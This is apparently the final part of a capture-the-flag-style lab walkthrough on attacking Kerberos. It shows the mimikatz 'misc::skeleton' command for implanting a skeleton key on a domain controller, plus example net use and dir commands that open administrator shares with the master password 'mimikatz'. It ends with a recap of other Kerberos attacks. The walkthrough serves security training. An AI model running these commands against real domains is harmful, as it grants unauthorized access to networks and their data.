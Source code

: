 ![](https://i.imgur.com/ZPOMDMo.png)![1728289095332](image/AttackingKerberos/1728289095332.png)

### Installing the Skeleton Key w/ mimikatz -

1.) `<span>misc::skeleton</span>` - Yes! that's it but don't underestimate this small command it is very powerful

![1728289111955](image/AttackingKerberos/1728289111955.png)![](https://i.imgur.com/wI802gw.png)

### Accessing the forest -

The default credentials will be: " *mimikatz* "

example: `<span>net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz</span>` - The share will now be accessible without the need for the Administrators password

example: `<span>dir \\Desktop-1\c$ /user:Machine1 mimikatz</span>` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.

## Conclusion

We've gone through everything from the initial enumeration of **Kerberos**, dumping tickets, pass the ticket attacks, kerberoasting, AS-REP roasting, implanting skeleton keys, and golden/silver tickets. I encourage you to go out and do some more research on these different types of attacks and really find what makes them tick and find the multitude of different tools and frameworks out there designed for attacking **Kerberos** as well as active directory as a whole.

You should now have the basic knowledge to go into an engagement and be able to use **Kerberos** as an attack vector for both exploitations as well as privilege escalation.

Know that you have the knowledge needed to attack **Kerberos** I encourage you to configure your own active directory lab on your network and try out these attacks on your own to really get an understanding of how these attacks work.
